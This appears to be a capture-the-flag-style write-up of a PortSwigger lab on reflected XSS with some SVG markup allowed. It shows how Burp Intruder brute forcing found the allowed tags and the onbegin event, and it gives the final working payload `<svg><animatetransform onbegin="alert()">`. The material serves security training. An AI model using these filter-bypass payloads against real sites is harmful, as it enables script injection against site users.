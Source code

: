 # Reflected XSS with some SVG markup allowed
# Objective
This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some `SVG` tags and events.

To solve the lab, perform a cross-site scripting attack that calls the `alert()` function.

# Solution
## Analysis
Payload: `<img src=0 onerror="alert()">` returns `"Tag is not allowed"`:
|![](Images/image-56.png)|
|:--:| 
| *Test payload* |


## Brute forcing allowed tags
[Tags and Events used for brute forcing (Copy tags to clipboard)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
Payload: 
```
/?search=<§§>
```

|![](Images/image-57.png)|
|:--:| 
| *Payload position* |
|![](Images/image-58.png)|
| *Payload settings - payload list was copied from Cross-site scripting (XSS) cheat sheet* |
|![](Images/image-59.png)|
| *Results* |

Allowed tags are: `<animatetransform>`, `<image>`, `<svg>`, `<title>`.
Tag `<animatetransform>` can be used inside `<svg>` tag.

Both tags: `<svg>` and `<animatetransform>` can be inserted into a page.
|![](Images/image-60.png)|
|:--:| 
| Tags `<svg>` and `<animatetransform>` were inserted |

## Brute forcing allowed events
[Tags and Events used for brute forcing (Copy tags to clipboard)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
Payload encoded and decoded: 
```
/?search=%3Csvg%3E+%3Canimatetransform%20§§=1%3E
/?search=<svg> <animatetransform §§=1>
```
|![](Images/image-57.png)|
|:--:| 
| *Payload position* |
|![](Images/image-58.png)|
| *Payload settings - payload list was copied from Cross-site scripting (XSS) cheat sheet* |
|![](Images/image-59.png)|
| *Results* |

Only `onbegin` event returned HTTP 200 OK. In order to make this Brute-Force to work, all characters including `<` and `>` had to be URL encoded. Otherwise all responses would have HTTP 400 codes. `CTRL+U` in Burp wasn’t encoding these characters. The base request must have looked like intercepted with encoded above mentioned characters.

## XSS Exploit
Payload: 
```
<svg><animatetransform onbegin="alert()">
```

![](Images/image-64.png)

